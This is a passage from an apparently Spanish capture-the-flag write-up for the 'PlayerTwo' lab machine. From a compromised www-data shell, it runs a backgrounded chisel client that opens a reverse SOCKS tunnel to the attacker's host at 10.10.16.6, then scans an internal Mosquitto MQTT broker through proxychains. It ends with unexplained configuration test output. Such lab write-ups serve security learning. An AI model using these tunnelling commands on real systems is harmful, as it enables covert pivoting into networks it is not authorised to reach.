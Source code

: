 Subo el ```chisel``` para aplicar ```Remote Port Forwarding```. En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

Desde la máquina víctima como cliente

```null
www-data@playertwo:/tmp$ ./chisel client 10.10.16.6:1234 R:socks &>/dev/null & disown
```

Analizo el puerto 1883 con ```nmap```

```null
proxychains nmap -sCV -p1883 -sT 127.0.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-14 18:04 GMT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.51s latency).

PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 1.4.15
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/messages/received/1min: 20.48
|     $SYS/broker/load/bytes/received/5min: 2373.79
|     $SYS/broker/heap/current: 36224
|     $SYS/broker/bytes/received: 1281457
|     $SYS/broker/publish/bytes/received: 1083212
|     $SYS/broker/clients/inactive: 8
|     $SYS/broker/load/bytes/sent/1min: 4330.69
|     $SYS/broker/load/publish/sent/1min: 41.12
|     $SYS/broker/messages/sent: 14685
|     $SYS/broker/messages/stored: 55
|     $SYS/broker/load/sockets/1min: 5.08
|     $SYS/broker/load/messages/received/15min: 15.38
|     $SYS/broker/load/connections/15min: 2.15
|     $SYS/broker/bytes/sent: 1272466
|     $SYS/broker/publish/bytes/sent: 1083458
|     $SYS/broker/load/bytes/received/1min: 2735.82
|     $SYS/broker/load/sockets/15min: 2.25
|     $SYS/broker/clients/expired: 0
|     $SYS/broker/load/publish/received/5min: 11.43
|     $SYS/broker/clients/total: 9
|     $SYS/broker/load/messages/received/5min: 16.14
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/received/15min: 2309.29
|     $SYS/broker/load/bytes/sent/15min: 2407.42
|     $SYS/broker/uptime: 33770 seconds
|     $SYS/broker/load/connections/5min: 2.46
|     $SYS/broker/load/publish/sent/15min: 2.98
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/publish/received/1min: 13.06
|     $SYS/broker/version: mosquitto version 1.4.15
|     $SYS/broker/timestamp: Tue, 18 Jun 2019 11:42:22 -0300
|     $SYS/broker/load/connections/1min: 4.17
|     $SYS/broker/retained messages/count: 48
|     $SYS/broker/publish/messages/sent: 45
|     $SYS/broker/publish/messages/received: 6193
|     $SYS/broker/publish/messages/dropped: 0
|     $SYS/broker/load/messages/sent/5min: 36.41
|     $SYS/broker/load/bytes/sent/5min: 2701.89
|     $SYS/broker/load/sockets/5min: 2.66
|     $SYS/broker/load/messages/sent/1min: 74.65
```

 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test